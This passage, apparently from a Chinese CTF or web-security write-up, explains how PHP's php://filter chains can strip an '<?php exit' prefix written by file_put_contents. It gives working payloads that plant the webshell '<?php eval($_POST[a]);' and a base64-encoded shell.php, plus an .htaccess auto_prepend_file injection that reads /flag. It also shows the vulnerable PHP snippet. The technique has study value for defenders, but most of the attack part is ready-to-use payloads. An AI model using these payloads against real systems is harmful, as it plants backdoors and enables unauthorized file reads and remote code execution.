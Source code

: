 在关闭 `short_open_tag = Off` 的情况下，可以

成功执行命令

####  string.strip_tags

* strip_tags — 从字符串中去除 HTML 和 PHP 标记。该函数尝试返回给定的字符串 str 去除空字符、HTML 和 PHP 标记后的结果。它使用与函数 fgetss() 一样的机制去除标记。 

![0KsHbQ.png](https://s1.ax1x.com/2020/10/01/0KsHbQ.png)

但是我们的目的是写入webshell，如果那样的话，我们的webshell岂不是同样起不了作用，不过我们可以使用多个过滤器进行绕过这个限制（php://filter允许通过 | 使用多个过滤器）。

```php
1、webshell用base64编码   //为了避免strip_tags的影响

2、调用string.strip_tags //这一步将去除<?php exit; ?>

3、调用convert.base64-decode //这一步将还原base64编码的webshell
```

payload:
```php
	?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=3.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

成功写入：

	<?php eval($_POST[a]);


##  .htaccess的预包含利用

PHP中auto_prepend_file与auto_append_file用法实例分析:  https://www.jb51.net/article/55468.htm

payload

	?filename=php://filter/write=string.strip_tags/resource=.htaccess&content=?>php_value auto_prepend_file%20"/flag"


## 7.2 bypass相同变量

```php
<?php
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```

这种情况下写入的文件，其文件名和文件部分内容一致，这就导致利用的难度大大增加了，不过最终目的还是相同的：都是为了去除文件头部内容exit这个关键代码写入shell后门。


#### base64

构造：

	content=php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=shell.php
	